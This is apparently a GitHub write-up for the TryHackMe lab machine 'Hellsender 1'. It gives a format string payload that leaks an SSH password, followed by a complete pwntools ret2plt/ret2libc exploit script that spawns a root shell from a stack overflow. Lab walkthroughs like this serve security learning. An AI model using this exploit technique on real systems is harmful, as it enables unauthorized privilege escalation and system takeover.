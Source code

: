 # Hellsender-1
Writeup for Hellsender 1 machine on THM.

Over port 9999 we have format string bug which leaks ssh password using payload `%6$p`.

For privilage escalation we have to exploit stack overflow on /home/joey/stack

There are a lot of ways to exploit the binary, i have done it with ret2plt + ret2libc method. 

Remember - ASLR is on.

```python
#!/usr/bin/python3

from pwn import *

exe = 'stack'
elf = context.binary = ELF(exe,checksec=False)
rop = ROP(elf)
context.log_level = 'info'
libc = elf.libc

def get_offset():
    io = process()
    io.sendline(cyclic(200))
    io.wait()
    core = Coredump('core')
    if context.arch == 'i386':
        sp = core.read(core.esp, 4)
    else:
        sp = core.read(core.rsp, 4)
    offset = cyclic_find(sp)
    success(f'Offset Found : {offset}')
    return offset

def get_ropchain():

    rop.puts(elf.got.puts)
    rop.vuln()

    return rop.chain()

offset = get_offset()

rop_chain = get_ropchain()

payload = flat({offset:rop_chain}) 

write("payload",payload)
info ("Payload written to payload file")
info(f"ROP Chain - \n{rop.dump()}")

if args.REMOTE:
    io = remote('', )
else:
    io = process()

if args.GDB:
    gdb.attach(io,"""
    break main
    continue
    """)

io.clean()
io.sendline(payload)
leak = io.recv(6)
libc.address = unpack(leak,'all') - libc.sym.puts
info(hex(libc.address))
rop = ROP(libc)
rop.raw(rop.find_gadget(['ret']))
bin_sh = next(libc.search(b'/bin/sh\x00'))
rop.system(bin_sh)
info(rop.dump())
payload2 = flat({offset:rop.chain()})
io.sendline(payload2)

io.interactive()
```
